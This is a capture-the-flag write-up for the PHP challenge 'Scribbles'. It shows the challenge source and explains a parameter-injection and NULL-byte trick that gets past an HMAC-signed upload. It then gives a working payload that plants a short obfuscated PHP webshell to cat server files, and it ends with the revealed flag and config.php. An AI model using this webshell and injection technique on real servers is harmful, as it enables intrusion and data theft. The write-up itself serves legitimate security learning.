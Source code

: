 # Scribbles

## Problem

```php
<?php

require('config.php');

if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
  highlight_file(__FILE__);
  exit;
}
if (empty($_GET['action'])) {

  $data = $_POST['data'];
  $name = uniqid();

  $payload = "data=$data&name=$name";
  $post = http_build_query([
    'signature' => hash_hmac('md5', $payload, FLAG),
    'payload' => $payload,
  ]);

  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, "http://127.0.0.1" . $_SERVER['REQUEST_URI'] . "?action=log");
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
  curl_setopt($ch, CURLOPT_POST, 1);
  curl_setopt($ch, CURLOPT_POSTFIELDS, $post);

  echo curl_exec($ch);

} else {

  if (hash_hmac('md5', $_POST['payload'], FLAG) !== $_POST['signature']) {
    echo 'FAIL';
    exit;
  }

  parse_str($_POST['payload'], $payload);

  $target = 'files/' . time() . '.' . substr($payload['name'], -20);
  $contents = $payload['data'];
  $decoded = base64_decode($contents);
  $ext = 'raw';

  if (isset($payload['ext'])) {
    $ext = (
      ( $payload['ext'] == 'j' ) ? 'jpg' :
      ( $payload['ext'] == 'p' ) ? 'php' :
      ( $payload['ext'] == 'r' ) ? 'raw' : 'file'
    );
  }

  if ($decoded !== '') {
    $contents = $decoded;
    $target .= '.' . $ext;
  }

  if (strlen($contents) > 37) {
    echo 'FAIL';
    exit;
  }

  file_put_contents($target, $contents);

  echo 'OK';
}
```

If we request without action parameter, it will construct post payload and send request to self(with action parameter) by curl.

The `hash_hmac` key is `FLAG`, but we don't know the content.

So we can't directly forge the signature.

## Exploit

The vulnerability is on `$payload = "data=$data&name=$name";`

We can't control `$name` variable, but we can use `$data` to control `$name`

Like this: set `$data`: `xxx&name=new_name%00`

The NULL byte will truncate the original name.

Now we can control the file name.

We want to write a webshell and execute it.

But if `$decoded !== ''`, it will append extension to the filename.

So we need to find a way to set `$decoded` empty.

And we know that php's `base64_decode()` will output empty string if its input doesn't contain any valid character.
(valid character include `a-z`, `A-Z`, `0-9`, `+`, `/`, ...)

Our goal is writing a non valid character webshell and the length shold be less than 38.

There are some tips, we can use some arithmetic operation like `XOR`, `NOT`, `AND`, ... to construct the php code.

So if we set data to ``` <?=`something`;%26name%3Dz.php%00```, the `$decoded` will be empty and the name can be controled.

The content of the file will not be decoded, it is the original content: ``` <?=`something`; ```

We can run the php script now.

## Payload

``` data=<?=$_=~%9c%9e%8b;`$_ ../*>_`;%26name%3Dz.php%00```

`~%9c%9e%8b` is `cat`

so the payload will cat everthing in `../`, then write to `_`.

After we run the `files/time().z.php`, we can get the content of `config.php` in the `files/_`

## Flag

config.php:

```php
<?php

set_time_limit(10);
define('FLAG', 'DCTF{7b39c8fcaef42b2f72d1f7d6f0686802bd9282f289f125281fd92c67572dd390}');

// added afterwards, not part of the challenge and keeps crashing apache because of a scenario
$_SERVER['REQUEST_URI'] = '/';
```
